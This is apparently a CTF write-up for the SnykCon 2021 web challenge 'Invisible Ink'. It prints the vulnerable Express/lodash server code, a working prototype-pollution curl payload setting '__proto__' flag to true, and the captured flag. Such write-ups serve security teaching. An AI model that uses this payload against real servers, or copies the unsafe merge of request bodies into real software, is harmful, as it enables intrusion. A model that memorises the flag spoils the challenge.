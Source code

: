 # SnykCon-CTF-2021
* Category: Web 
* Name: Invisible Ink
* Level: None
* Description: None
## Solution
* Overview the challenge provided us a `request` and `response` and `POST` method
![Main function](./challenge.PNG) 
*  I used curl command with `POST` method and seems nothing =))))
![Main function](./1.PNG) 
* Now i read `index.js` file 
```c
'use strict';
const fs = require('fs');
const express = require('express');
const app = express();
const bodyParser = require('body-parser');
const _ = require('lodash');
const options = {};
const flag = fs.readFileSync('./flag', 'utf-8').trim();
const docHtml = fs.readFileSync('./index.html', 'utf-8');

app.use(bodyParser.json());

app.get('/', (req, res) => {
    res.send(docHtml);
});

app.post('/echo', (reg, res) => {
    const out = {
        userID: req.headers['x-forwarded-for'] || req.connection.remoteAddress, time:
            Date.now()
    };

    _.merge(out, req.body);
    if(options.flag){
        out.flag = flag;
    }else {
        out.flag = 'disabled';
    }
    res.json(out);
    process.exit(0);
});
app.listen(8000);
```
* I found two line of code `const _ = require('lodash');`,`_.merge(out, req.body);`,`lodash` is a lib of javascript you can read document about it at `https://lodash.com/` :))
* Then i found some exploit ways involved lodash and i found `CVE-2018-3721`. I realized the challenge have a problem about `Prototype Pollution`
* <https://nvd.nist.gov/vuln/detail/CVE-2018-3721>
* I used `curl`command again and i found a flag ^_^ 
```c
curl -H "Content-Type: application/json" -X POST http://35.211.53.53:8000/echo -d  '{"message": "ping", "__proto__": {"flag":true}}'
```
![Main function](./3.PNG) 
* FLAG `SNYK{6a6a6fff87f3cfdca056a077804838d4e87f25f6a11e09627062c06f142b10dd}`
